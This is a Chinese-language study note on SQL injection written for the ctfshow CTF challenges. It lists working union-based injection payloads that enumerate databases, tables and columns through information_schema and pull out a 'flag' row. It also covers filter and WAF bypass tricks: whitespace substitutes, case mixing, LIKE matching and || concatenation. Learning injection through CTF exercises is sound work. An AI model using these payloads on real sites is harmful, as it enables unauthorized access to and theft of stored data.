 # sql注入学习1

<br>


### 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

### 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+  #  %23 --%0c注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

### 第三步: 查询库 表 列
* 查找库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来)
* 查找列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)

### 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

## 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ + `
* 换行绕过空格： %0b（用于空格绕过都不成功的情况）

<br>

### 一些更简洁的可以参考的playload
* 1'%0aunion%0asElect%0a1,2,%0agroup_concat(password)%0afrom%0actfshow_user%23
* -1'%0cor%0cusername='flag


<br>

### waf绕过
* 大小写
* 模糊搜索：在where处这样写 where pass like'%c%'(意思是在pass列中模糊搜索c开头的数据，其中的%可用%25替代)



<br>


### 基于原题下手的绕过
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
* 这段代码我们可以利用拼接来进行绕过
* 管道符-1'||username='flag
* 管道符-1'||(username)like'%fla%

### 布尔盲注：看脚本（用到where和select）


<br>

### regexp盲注：看脚本（where和select被过滤了可以用group by pass having pass regexp）

<br>

ctfshow-web184

<br>